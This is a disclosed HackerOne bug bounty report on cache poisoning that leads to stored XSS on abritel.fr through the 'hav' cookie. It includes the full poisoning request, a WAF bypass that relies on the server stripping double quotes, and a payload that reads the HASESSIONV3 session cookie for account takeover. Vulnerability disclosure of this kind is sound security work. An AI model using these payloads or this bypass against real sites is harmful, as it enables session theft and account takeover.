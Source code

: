 # Cache Poisoning Allows Stored XSS Via hav Cookie Parameter (To Account Takeover)

## Report Details
- **Report ID**: 1760213
- **URL**: https://hackerone.com/reports/1760213
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-11-02T19:18:44.156Z
- **Disclosed**: 2023-04-01T19:59:48.752Z

## Reporter
- **Username**: bombon
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: expediagroup_bbp

## Vulnerability Information
## Summary:

Report #1698316 was closed as resolved 

You told me that the stored XSS was going to be resolved since "As this relies on the same root cause, we will be closing it as duplicate", but no 


abritel.fr has a strong WAF, however the server hides double quotes, allowing to bypass the WAF

e.g

The server blocks `</script`but if I send `</sc"ript>`

WAF is bypassed and the output is </script>


## Steps To Reproduce:


1-> Send this request 

```http
GET /annonces/location-vacances/france_midi-pyrenees_46_stcere_dt0.php.js?xxxd HTTP/2
Host: www.abritel.fr
Cookie: hav=xss"</sc"ript><sv"g/onloa"d=aler"t"(document.doma"in)>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.abritel.fr/signup?enable_registration=true&redirectTo=%2Fsearch%2Fkeywords%3Asoissons-france-%28xss%29%2FminNightlyPrice%2F0%3FpetIncluded%3Dfalse%26filterByTotalPrice%3Dtrue%26ssr%3Dtrue&referrer_page_location=serp
Upgrade-Insecure-Requests: 1
Te: trailers
```

2-> Using another browser visit: 

https://www.abritel.fr/annonces/location-vacances/france_midi-pyrenees_46_stcere_dt0.php.jpeg?xxxd

Exploit:

This is the payload to extract the HASESSIONV3 
xss"</sc"ript><sv"g/onloa"d=aler"t"(window.INITIAL_STATE.system.cookie)>


## Supporting Material/References:

{F2016192}

## Impact

Stored XSS to Account Takeover

## Attachments
- recording-1667416640491.webm
